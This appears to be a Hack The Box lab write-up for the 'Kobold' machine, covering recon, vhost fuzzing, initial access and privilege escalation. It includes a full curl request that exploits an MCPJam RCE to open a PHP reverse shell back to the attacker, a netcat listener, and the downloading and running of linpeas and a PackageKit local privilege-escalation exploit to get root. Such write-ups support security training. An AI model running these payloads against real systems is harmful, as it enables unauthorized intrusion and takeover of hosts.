






# WRITE UP Kobold - HTB MACHINE
## MY MAIN IDEA AND WALKTHROUGH
### Step 1. First of all, we need to connect with the VPN from HTB, using the command: ```sudo openvpn <FILE_NAME>.ovpn```

### Step 2. OK! now check the HTB website and get the target IP and we are ready to startttt:



### Step 3. Using `nmap` to scan generally the target IP address:

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-08 07:58 +07
Nmap scan report for bin.kobold.htb (<IP_ADDRESS>)
Host is up (0.59s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

- First, I scanned without any `nmap` flag to save time to find  `open` ports. After that, I used `-sC` and `-sV` flag which allowed me to check deeply the `open` ports with common scripts.

```bash
nmap <IP_ADDRESS> -sV -sC -p 22,80,443
Starting Nmap 7.95 ( https://nmap.org ) at 2026-07-08 08:00 +07
Nmap scan report for bin.kobold.htb (<IP_ADDRESS>)
Host is up (0.48s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8c:45:12:36:03:61:de:0f:0b:2b:c3:9b:2a:92:59:a1 (ECDSA)
|_  256 d2:3c:bf:ed:55:4a:52:13:b5:34:d2:fb:8f:e4:93:bd (ED25519)
80/tcp  open  http     nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://bin.kobold.htb/
443/tcp open  ssl/http nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
| ssl-cert: Subject: commonName=kobold.htb
| Subject Alternative Name: DNS:kobold.htb, DNS:*.kobold.htb
| Not valid before: 2026-03-15T15:08:55
|_Not valid after:  2125-02-19T15:08:55
|_ssl-date: TLS randomness does not represent time
|_http-title: PrivateBin
| tls-alpn: 
|   http/1.1
|   http/1.0
|_  http/0.9
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.82 seconds
```

### Step 4. Checking the website:
- From `nmap` scanning result, the only way to solve this machine is inspecting the `https` website to find helpful thing. (Dont forget to add the IP address and domain name to `/etc/hosts` file: `sudo nano /etc/hosts`)



- I looked around and found nothing, so my next step is fuzzing the web with `ffuf` tool.

### Step 5. Fuzzing the website with ffuf
- From my personal experience, in this case, the `vhost fuzzing` option was my first choice.
- Using `ffuf` tool with `DirBuster-2007_directory-list-2.3-small.txt` list from `seclists`, I scanned the website in `vhost` mode.

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u https://kobold.htb:443/ -H 'Host: FUZZ.kobold.htb' -fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://kobold.htb:443/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt
 :: Header           : Host: FUZZ.kobold.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

bin                     [Status: 200, Size: 24402, Words: 1218, Lines: 386, Duration: 238ms]
mcp                     [Status: 200, Size: 466, Words: 57, Lines: 15, Duration: 320ms]
MCP                     [Status: 200, Size: 466, Words: 57, Lines: 15, Duration: 344ms]
:: Progress: [87664/87664] :: Job [1/1] :: 175 req/sec :: Duration: [0:08:10] :: Errors: 0 ::
```

- After the scanning process, I found 3 available `vhosts`.





- The `PrivateBin` website did not bring back anything helpful.
- Finally, I found the way to exploit when searching about the `MCPJam` website.

### Step 6. Exploiting through `MCPJam` website
- First, I searched the web about `MCPJam` and I found an important detail: `MCPJam` versions 1.4.2 and earlier were affected by `CVE-2026-23744` which could lead to `RCE`. 
- Let check the version of this `MCPJam` website:



- Great! The version of this `MCPJam` website was 1.4.2 which is exploitable. 
- There are many websites on the Internet write about the payload to exploit `CVE-2026-23744` and in this lab I used payload from this website, you can follow this link: `https://github.com/advisories/GHSA-232v-j27c-5pp6`
- Using `curl` and payload from the above website, I could execute a `reverse shell` and gain the `RCE` privilege:

```bash
curl -k -X POST https://mcp.kobold.htb/api/mcp/connect --header "Content-Type: application/json" --data '{"serverConfig":{"command":"php","args":["-r","$sock=fsockopen(\"<MY_IP_ADDRESS>\",4444);exec(\"/bin/bash -i <&3 >&3 2>&3\");"]},"serverId":"php_shell"}'
```

```bash
sudo nc -lvnp 4444
[sudo] password for admin: 
Listening on 0.0.0.0 4444
Connection received on <IP_ADDRESS> 38636
bash: cannot set terminal process group (1590): Inappropriate ioctl for device
bash: no job control in this shell
ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$ whoami
whoami
ben
```

- As you can see, I could execute command on backend server as user `ben`

### Step 7. Get `user flag`
- I could easily get `user flag` as `ben`:

```bash
ben@kobold:/usr/local/lib/node_modules/@mcpjam/inspector$ cd /home
cd /home
ben@kobold:/home$ ls -a
ls -a
.
..
alice
ben
ben@kobold:/home$ cd ben
cd ben
ben@kobold:~$ ls -a
ls -a
.
..
.bash_history
.bash_logout
.bashrc
.cache
.profile
user.txt
ben@kobold:~$ cat user.txt
cat user.txt
<USER_FLAG>
```

- The next step is operating `privilege escalation` and gain the `root flag`

### Step 8. `privilege escalation`
- One of the most basic way to check for `privilege escalation` is using `sudo -l` and `getcap` to find special capabilities in server

```bash
ben@kobold:~$ sudo -l
sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
ben@kobold:~$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin,cap_sys_nice=ep
/usr/lib/snapd/snap-confine cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_setgid,cap_setuid,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin=p
```

- As you can see, we could not use the `sudo -l` command but the `getcap -r / 2>/dev/null` command gave us one interesting detail: `/usr/lib/snapd/snap-confine cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_setgid,cap_setuid,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin=p`. The `snap-confine` has powerful capabilities which could help us execute `privilege escalation`. I'll save this here to use later.
- Another way to execute `privilege escalation` is using `linpeas.sh`. `linpeas.sh` is a very useful tool that could scan the server system and find the vulnerabilities to execute `privilege escalation`.
- First, I had to run this command:

```
sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

to make my computer become a `http server` in port `8080`. Now I could use `curl` and download `linpeas.sh` from my computer to this server.
- After that, I gave this file the execute privilege `chmod +x linpeas.sh` and run `linpeas.sh` file.

```bash
ben@kobold:~$ curl http://<MY_IP_ADDRESS>:8080/linpeas.sh -O
curl http://<MY_IP_ADDRESS>:8080/linpeas.sh -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 1038k  100 1038k    0     0   160k      0  0:00:06  0:00:06 --:--:--  217k
ben@kobold:~$ ls -a
ls -a
.
..
.bash_history
.bash_logout
.bashrc
.cache
.profile
linpeas.sh
user.txt
ben@kobold:~$ chmod +x linpeas.sh
chmod +x linpeas.sh
ben@kobold:~$ ./linpeas.sh
```

- `linpeas.sh` ran successfully and after this process, some vulnerabilities (`CVEs`) were found by `linpeas.sh`

### Step 9. Checking CVEs
- The `linpeas.sh` scanning process showed us three `CVEs` that might be exploited to execute `privilege escalation`:
- ```/usr/lib/snapd/snap-confine cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_setgid,cap_setuid,cap_sys_chroot,cap_sys_ptrace,cap_sys_admin=p```. This was the detail that we previously gained by using `getcap` command. When I checked about this detail on Google, it was found to be `CVE-2026-3888` which could lead to `privilege escalation`
-  

```
CVE-2026-43284 (xfrm-ESP): loaded: xfrm_user
CVE-2026-43500 (rxrpc): autoloadable: rxrpc
```

-  

```
PackageKit version detected: 1.2.8
Vulnerable to CVE-2026-41651 (Pack2TheRoot) - PackageKit 1.2.8 is in the vulnerable range >=1.0.2 <=1.3.4
```

- The first one is `CVE-2026-3888`. For more detail, you can follow this link: `https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE`. This is the requirements to exploit this `CVE`:



I checked carefully this server and found that there was no snap with layout bind-mounts in this server:

```bash
ben@kobold:~$ mount | grep snap
mount | grep snap
ben@kobold:~$ 
```

So, this is a false positive alert from `linpeas.sh`
- The second one is about `CVE-2026-43284` and `CVE-2026-43500` which is called `dirtyfrag`. For more detail, you can follow this link: `https://github.com/v4bel/dirtyfrag`. One more time, I found that is a false positive alert because the `CVE-2026-43500` was not exploitable in this server
- So, I tried the last one (`CVE-2026-41651`) and fortunately, it executed successfully. You can learn and read the step by step tutorial how to exploit `CVE-2026-41651` by following this link: `https://github.com/Vozec/CVE-2026-41651`. 
- As the previous method, first, I made my computer become a `http server`

```bash
sudo python3 -m http.server 8080
[sudo] password for admin: 
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

- From the server side, I downloaded the `.zip` file that contained exploit code using `curl` and `unzip` it using `python3`

```bash
ben@kobold:~$ curl http://<MY_IP_ADDRESS>:8080/CVE-2026-41651-main.zip -O
curl http://<MY_IP_ADDRESS>:8080/CVE-2026-41651-main.zip -O
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  133k  100  133k    0     0  76421      0  0:00:01  0:00:01 --:--:-- 76408
ben@kobold:~$ python3 -m zipfile -e CVE-2026-41651-main.zip CVE-2026-41651-main    
<file -e CVE-2026-41651-main.zip CVE-2026-41651-main
ben@kobold:~$ ls -a
ls -a
.
..
.bash_history
.bash_logout
.bashrc
.cache
.profile
CVE-2026-41651-main
CVE-2026-41651-main.zip
user.txt
ben@kobold:~/CVE-2026-41651-main$ cd CVE-2026-41651-main    
cd CVE-2026-41651-main
ben@kobold:~/CVE-2026-41651-main/CVE-2026-41651-main$ 
```

- As tutorial, I finally execute `privilege escalation` successfully:

```bash
ben@kobold:~/CVE-2026-41651-main/CVE-2026-41651-main$ chmod +x cve-2026-41651  
chmod +x cve-2026-41651
ben@kobold:~/CVE-2026-41651-main/CVE-2026-41651-main$ ./cve-2026-41651
./cve-2026-41651
═══════════════════════════════════════════════════
 CVE-2026-41651 — PackageKit TOCTOU LPE
═══════════════════════════════════════════════════
[*] Building packages (pure C)...
[+] dummy   : /tmp/.pk-dummy-2319.deb
[+] payload : /tmp/.pk-payload-2319.deb
[*] Transaction : /2_aabeadbe
[*] Step 1 : InstallFiles(SIMULATE=0x4, dummy) [async]
[*] Step 2 : InstallFiles(NONE=0x0, payload) [async]
[*] Waiting for dispatch (30 s max)...
[!] PK error 48: Failed to obtain authentication.
[*] Finished (exit=2, 0 ms)
[*] Loop ran for 32 ms
[*] Polling for payload (120 s max)...
[*] t+1s: payload=exists dpkg_lock=free suid=not yet
[*] t+2s: payload=exists dpkg_lock=free suid=not yet
uid=1001(ben) gid=1001(ben) euid=0(root) groups=1001(ben),37(operator)

[+] SUCCESS — SUID bash at t+1500ms
ben@kobold:~/CVE-2026-41651-main/CVE-2026-41651-main$ find /tmp /var/tmp /dev/shm -perm -4000 -ctime -1 2>/dev/null
</var/tmp /dev/shm -perm -4000 -ctime -1 2>/dev/null  
/tmp/.suid_bash
ben@kobold:~/CVE-2026-41651-main/CVE-2026-41651-main$ /tmp/.suid_bash -p
/tmp/.suid_bash -p
whoami
root
```

### Step 10. Get `root flag`

```bash
whoami
root
cd /root
ls -a
.
..
.bash_history
.bashrc
.cache
.local
.npm
.profile
.ssh
arcane_linux_amd64
data
root.txt
cat root.txt
<ROOT_FLAG>
```

### NOTE
- I will research about 3 `CVEs` and hopefully I can improve my skillsets and extend my knowledge.
- My blog about 3 `CVEs`: `CVE-2026-41651`, `CVE-2026-43500` and `CVE-2026-43284` will appear soon.

## THING I LEARNT AFTER THIS LAB:
- Do not spend to much time in web enum/fuzzing step
- After solving about 03 labs, I think I knew what kind of `web fuzzing` I have to do first to gain helpful things
- Maybe sometimes searching for `CVE` first is a good idea
- Trust the process
